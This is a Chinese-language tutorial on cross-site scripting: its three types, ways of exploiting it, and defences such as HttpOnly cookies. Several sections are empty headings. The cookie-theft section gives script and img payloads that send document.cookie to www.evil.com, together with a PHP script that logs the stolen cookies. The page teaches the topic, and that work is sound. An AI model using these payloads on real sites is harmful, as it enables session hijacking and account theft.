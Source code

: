 ## 简介

XSS攻击，全称Cross Site Script攻击。通常是指黑客通过“HTML”注入篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。一般分为**反射型XSS**、**存储型XSS**和**基于DOM的XSS**。

1. **反射型XSS**：通常由黑客构造一个恶意的url，通过诱使用户点击实现攻击目的。
2. **存储型XSS**：黑客将恶意代码以博客或者其他形式存储到服务器上，每当其他用户浏览该内容时就会受到攻击。
3. **基于DOM的XSS**：这种XSS并不以“数据是否保存在服务器上”作为分类标准。从效果上，他是一种反射型XSS，但由于其独特的形成原因而单独列出。前端页面提供了用户修改DOM节点的功能，而用户通过输入攻击Payload达到插入脚本的目的，从而可以进一步实施更深入的攻击。

## XSS利用姿势

#### 1. Cookie窃取

可以使用下面的姿势将受害者cookie以GET的姿势发送到服务器上：

```js
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

远程服务器可以由配套接收cookie的服务器文件：

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

#### 2. 构造POST或者GET请求

利用插入在用户页面的XSS Payload，以用户的身份发送GET或者POST请求。Javascript可以发送GET、POST类型的请求，POST类型的请求也可以通过AJAX\(XMLHttpRequest或者ActiveXObject\)的方式发送。

#### 3. 钓鱼

#### 4. 挂马

#### 5. DOS或者DDOS

#### 6. XSS蠕虫

## 攻击姿势

通过XSS攻击，攻击者能够在用户当前浏览的页面中植入恶意脚本，并进而控制用户浏览器。这些脚本可以被称为攻击Payload。

###### 

## XSS防御

### 1. HttpOnly

可以对Cookie设置HttpOnly属性，从而禁止JavaScript对该类型Cookie的访问，从而防止了攻击者利用XSS窃取用户Cookie。

### 2. 输入检查

### 3. 输出检查

> 参考：
>
> 1. 《白帽子讲Web安全》
> 2. [CTF-wiki: XSS cross-site scripting attack](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)




